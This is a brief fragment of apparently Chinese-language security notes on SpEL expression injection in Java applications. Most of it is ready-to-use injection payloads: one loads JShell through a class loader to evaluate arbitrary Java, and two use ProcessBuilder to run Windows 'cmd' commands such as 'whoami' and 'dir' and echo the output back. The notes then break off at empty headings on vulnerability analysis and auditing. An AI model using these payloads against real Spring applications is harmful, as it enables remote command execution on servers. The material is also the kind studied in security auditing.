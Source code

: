 * jdk>=9 JShell

```java
T(SomeWhitelistedClassNotPartOfJDK).ClassLoader.loadClass("jdk.jshell.JShell",true).Methods[6].invoke(null,{}).eval('whatever java code in one statement').toString()
```

* jdk原生，但是只能读取一行

```java
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()
```

* Scanner

```java
new java.util.Scanner(new java.lang.ProcessBuilder("cmd", "/c", "dir", ".\\").start().getInputStream(), "GBK").useDelimiter("asfsfsdfsf").next()
```

##### 通用回显

* strust2
* Springboot（TODO1）



### SpEL相关漏洞分析

### SpEL表达式注入审计